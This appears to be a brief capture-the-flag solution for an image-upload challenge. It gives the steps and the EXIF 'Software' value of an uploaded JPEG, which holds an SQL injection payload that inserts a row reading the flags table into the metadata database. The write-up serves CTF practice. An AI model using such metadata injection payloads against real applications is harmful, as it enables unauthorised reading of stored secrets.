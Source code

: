 Upload 0.jpeg
Upload 1.jpeg
Check /view/0f8eb6fa3483cdd0ca302946b42a8b7a8ef838d048d4f7a6e3bd1c264638e18b

(Payload in 1.jpeg inserts flag into 0.jpeg's metadata in the database.)

1.jpeg has:
"Software": "\"),(\"0f8eb6fa3483cdd0ca302946b42a8b7a8ef838d048d4f7a6e3bd1c264638e18b\",(SELECT value FROM flags),\""

